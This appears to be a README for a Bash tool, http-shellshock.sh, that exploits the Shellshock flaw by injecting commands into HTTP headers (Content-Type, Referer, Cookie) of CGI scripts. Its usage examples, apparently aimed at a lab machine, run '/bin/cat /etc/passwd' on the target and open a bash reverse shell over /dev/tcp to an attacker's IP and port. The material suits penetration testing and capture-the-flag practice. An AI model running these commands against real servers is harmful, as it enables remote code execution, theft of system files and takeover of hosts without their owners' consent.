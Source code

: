 # http-shellshock.sh

Script to test web pages for shellshock vulnerabilities in headers

Switches

-u = URL
-h = Headings (optional)  to test a specific header feild in address, select number from list: 

      1 = "Content-Type"

      2 = "Referer"

      3 = "Cookie"

-s = Script command (optional) default is /bin/uname -a, Full paths to commands are required


Examples below

        ./http-shellshock.sh -u url [-h number] [-s 'command to run']

        ./http-shellshock.sh -u http://10.10.10.56/cgi-bin/user.sh

Full paths to binaries may be required as web service user may not have loaded profile. The below command tests a url "Content-Type" and cat's the passwd file in /etc.

         ./http-shellshock.sh -u http://10.10.10.56:80/cgi-bin/user.sh -h 1 -s '/bin/cat /etc/passwd'

If the target is vulnerable we might be able to get a reverse shell using the following...
Start a reverse nc listener and run the below changing the attackers IP and port
 
        ./http-shellshock.sh -u http://10.10.10.56:80/cgi-bin/user.sh -h 1 -s '/bin/bash -i >& /dev/tcp/10.10.14.22/443 0>&1'

